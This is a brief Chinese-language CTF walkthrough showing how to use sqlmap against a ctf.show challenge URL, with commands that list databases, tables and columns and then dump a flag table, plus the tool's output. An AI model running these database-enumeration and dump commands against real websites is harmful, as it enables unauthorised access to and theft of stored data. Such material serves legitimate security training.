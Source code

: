 # sqlmap使用

<br>

* 常用参数
````
常用参数
--dbs 所有数据库
--tables 所有表
--columns 所有列

````

<br>

### 第一步：开始脚本注入

<br>


* 使用sqlmap -u url来进行注入

例：

sqlmap -u "http://d96b8b94-0e30-4e6a-810b-caf654fe2b02.challenge.ctf.show/?id="

<br>

### 第二步：查表

执行上述命令后得到注入成功的回显然后可以进行查库操作

<br>

如上述命令执行后得到

````

available databases [7]:                                                                                                                                                                                    
[*] ctfshow
[*] ctftraining
[*] information_schema
[*] mysql
[*] performance_schema
[*] security
[*] test

````

<br>

* 接下来可以查看指定库的所有表：sqlmap -u "http://d96b8b94-0e30-4e6a-810b-caf654fe2b02.challenge.ctf.show/?id=" -D ctfshow --tables

* 得到回显
````

Database: ctfshow
[1 table]
+------+
| flag |
+------+

````

* 到这里就说明查询到表flag了，接下来使用: sqlmap -u "http://d96b8b94-0e30-4e6a-810b-caf654fe2b02.challenge.ctf.show/?id=" -D ctfshow -T flag --columns

````

Database: ctfshow                                                                                                                                                                                           
Table: flag
[2 columns]
+--------+--------------+
| Column | Type         |
+--------+--------------+
| flag   | varchar(255) |
| id     | int(11)      |
+--------+--------------+


````

* 接下来使用直接dump出来: sqlmap -u "http://d96b8b94-0e30-4e6a-810b-caf654fe2b02.challenge.ctf.show/?id=" -D ctfshow -T flag --dump

````
Database: ctfshow
Table: flag
[1 entry]
+----+-----------------------------------------------+
| id | flag                                          |
+----+-----------------------------------------------+
| 1  | ctfshow{cd6650cb-4523-49ee-8251-bcbf145e920c} |
+----+-----------------------------------------------+
````